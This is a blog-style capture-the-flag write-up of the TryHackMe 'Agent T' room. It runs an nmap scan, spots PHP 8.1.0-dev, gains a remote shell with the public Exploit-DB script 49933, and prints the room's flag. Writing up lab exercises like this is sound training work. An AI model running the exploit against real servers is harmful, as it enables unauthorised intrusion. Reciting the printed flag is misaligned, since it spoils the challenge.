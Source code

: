 ```yaml
---
title: "TryHackMe - Agent T"
date: 2025-05-09 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [ExploitDB, rce , PHP 8.1.0-dev, web exploitation ]
---
```



## Introduction
In this post, I document the solution to the Agent T room on TryHackMe. This challenge focuses on identifying and exploiting a remote code execution (RCE) vulnerability in a PHP-based HTTP server. Below is a detailed breakdown of my approach.

## Reconnaissance

I began with a full port scan using Nmap, including service and version detection:

```console 
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV -T4 -p- -A 10.10.193.148 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 10:07 EDT
Nmap scan report for 10.10.193.148
Host is up (0.066s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   64.28 ms 10.23.0.1
2   64.44 ms 10.10.193.148

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.09 seconds
```

Results:
- Open port: 80/tcp

- Service: PHP CLI Server 5.5 or later (PHP 8.1.0-dev)

- Page title: Admin Dashboard

- Operating system: Linux (version 4.15 - 5.19)

The presence of `PHP 8.1.0-dev` stood out due to a known remote code execution vulnerability.

## Exploiting a Known Vulnerability (ExploitDB)

The version `PHP 8.1.0-dev` is affected by a public RCE vulnerability available at Exploit-DB [(ID 49933)](https://www.exploit-db.com/exploits/49933).

I ran the provided Python script against the target:

```console
python3 49933.py 
http://10.10.193.148
```

This resulted in remote shell access to the target system.


## Locating the Flag

With shell access established, I searched for the flag:

```console
$ find / -type f -name "flag.txt"
/flag.txt

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
$ 
```

## Conslusion

The Agent T challenge demonstrates the critical importance of avoiding unstable development versions in production. The use of PHP 8.1.0-dev exposed the system to complete takeover via a publicly available RCE exploit.